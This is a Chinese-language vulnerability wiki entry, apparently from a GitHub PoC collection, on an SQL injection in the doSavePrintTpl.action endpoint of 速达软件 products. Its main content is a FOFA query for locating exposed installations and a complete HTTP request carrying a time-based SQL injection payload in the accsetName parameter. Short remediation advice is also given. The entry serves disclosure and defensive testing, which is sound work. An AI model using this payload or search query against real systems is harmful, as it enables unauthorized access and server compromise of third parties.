

# 速达软件 多款产品 doSavePrintTpl.action SQL注入漏洞

# 漏洞描述

由于速达软件 多款产品使用Struts2开发框架组件，存在sql注入漏洞，未经身份验证的远程攻击者可利用此漏洞执行任意系统命令，写入后门文件，获取服务器权限。

# 影响版本

速达软件

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="速达软件技术（广州）有限公司" && body="jslib/extjs2.3/view/PasswordField.js"

POC/EXP：

GET /common/print/print!doSavePrintTpl.action?report=1&rptid=1&employId=-1&modId=-1&accsetName=1%27;WAITFOR+DELAY%270:0:5%27-- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive

# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
